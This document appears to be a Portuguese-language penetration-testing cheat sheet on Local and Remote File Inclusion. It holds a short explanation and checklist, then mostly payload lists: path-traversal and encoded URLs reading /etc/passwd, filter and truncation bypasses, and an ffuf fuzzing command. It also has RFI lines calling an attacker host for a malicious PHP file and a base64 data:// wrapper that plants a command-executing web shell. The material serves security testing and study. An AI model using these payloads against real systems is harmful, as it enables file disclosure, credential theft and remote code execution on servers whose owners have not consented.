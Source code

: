 # 🧪 LFI & RFI – Testes de Inclusão de Arquivos

## 📌 Tipos de Vulnerabilidades

### LFI (Local File Inclusion)

Permite que um atacante inclua arquivos do sistema local, como `/etc/passwd`, por meio de parâmetros de URL mal validados.
A vulnerabilidade de Local File Inclusion (LFI) surge da utilização insegura de parâmetros HTTP para controle de conteúdo em aplicações web, prática comum em linguagens como PHP, Node.js e Java. Frameworks frequentemente usam templates para incluir dinamicamente conteúdos com base em parâmetros da URL, como em chamadas do tipo /index.php?page=about. Quando esses parâmetros são passados diretamente para funções como include() sem validação, atacantes podem explorar essa falha para incluir arquivos locais sensíveis, como /etc/passwd ou arquivos de configuração. Essa exposição pode revelar código-fonte e credenciais, facilitando ataques mais graves como SQL Injection ou escalonamento de privilégios. Em ambientes mal configurados, LFI pode evoluir para execução remota de código, comprometendo completamente o servidor e possibilitando movimentação lateral e persistência.

### RFI (Remote File Inclusion)

Permite incluir e executar arquivos hospedados remotamente em servidores controlados pelo atacante, geralmente via URL como `http://attacker.com/shell.php`.
Quando uma função vulnerável nos permite incluir arquivos remotos, podemos hospedar um script malicioso e incluí-lo na página vulnerável para executar funções maliciosas e obter execução remota de código. No PHP é necessário que o parâmetro allow_url_include esteja habilitado, o padrão é estar desabilitado.

:fries: Checklist
- observe os campos das requisições em todos os métodos HTTP
- observe nos campos das requisições o tipo de informação usada 
- observe como a informação transmitida nos campos é processada
- observe funções de upload
- modifique o valor de um campo na requisição e observe como a aplicação responde
- adicione no campo payloads de LFI
- adicione no campo url para validar RFI
- crie um arquivo com código executável e faça o upload na aplicação
- procure acessar o arquivo para executar o código 

---

#### LFI Básico
```
http://example.com/index.php?page=../../../etc/passwd
http://example.com/index.php?page=....//....//....//etc/passwd
http://example.com/index.php?page=....\/....\/....\/etc/passwd
http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

```

#### Null Byte (%00)
Falha corrigida na versão PHP 5.4
```http://example.com/index.php?page=../../../etc/passwd%00```

#### Encoding
```
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

#### LFI a partir de diretórios existentes
```
http://example.com/index.php?page=utils/scripts/../../../../../etc/passwd
```

### LFI exploit File System
O sistema de arquivos de um servidor pode ser explorado recursivamente para identificar diretórios, não apenas arquivos, empregando certas técnicas. 
Esse processo envolve determinar a profundidade do diretório e verificar a existência de pastas específicas.

- depth of 3
```
http://example.com/index.php?page=../../../etc/passwd # depth of 3
```
- depth of 4
Adicione o nome da pasta suspeita (por exemplo, private) à URL e navegue de volta para /etc/passwd.
```
http://example.com/index.php?page=private/../../../../etc/passwd # we went deeper down one level, so we have to go 3+1=4 levels up to go back to /etc/passwd
```
Para explorar diretórios em diferentes locais do sistema de arquivos, ajuste o payload. Por exemplo, para verificar se /var/www/ contém um diretório (assumindo que o diretório atual esteja a uma profundidade de 3), use:
```
http://example.com/index.php?page=../../../var/www/private/../../../etc/passwd
```

### Gerar wordlist de LFI a partir de uma wordlist existente
```
# 1
sed 's_^_../../../var/www/_g' /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt | sed 's_$_/../../../etc/passwd_g' > payloads.txt

# 2
ffuf -u http://example.com/index.php?page=FUZZ -w payloads.txt -mr "root"
```

#### Path Trucation
É um método empregado para manipular caminhos de arquivo em aplicações web. É frequentemente usado para acessar arquivos restritos, ignorando certas medidas de segurança que adicionam caracteres adicionais ao final dos caminhos de arquivo.
```
In PHP: /etc/passwd = /etc//passwd = /etc/./passwd = /etc/passwd/ = /etc/passwd/.
Check if last 6 chars are passwd --> passwd/
Check if last 4 chars are ".php" --> shellcode.php/.
```
```
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd..\.\.\.\.\.\.\.\.\.\.\[ADD MORE]\.\.
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.

#With the next options, by trial and error, you have to discover how many "../" are needed to delete the appended string but not "/etc/passwd" (near 2027)
# | Sempre testar adicionando um diretório falso a/ Essa vulnerabilidade foi corrigida no PHP 5.3

http://example.com/index.php?page=a/./.[ADD MORE]/etc/passwd
http://example.com/index.php?page=a/../../../../[ADD MORE]../../../../../etc/passwd
```

#### Filter Bypass
```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
Maintain the initial path: http://example.com/index.php?page=/var/www/../../etc/passwd
http://example.com/index.php?page=PhP://filter
```

### RFI
```
http://example.com/index.php?page=http://atacker.com/mal.php
http://example.com/index.php?page=\\attacker.com\shared\mal.php
```
<p>Se por algum motivo allow_url_include estiver ativado, mas o PHP estiver filtrando o acesso a páginas externas, você pode usar, por exemplo, o wrapper data com base64 para decodificar um código PHP base64 e egt RCE:</p>
[Ref.:] (https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64/)

```
PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+.txt

data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt
```

### Parâmetro para testar LFI
```
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```


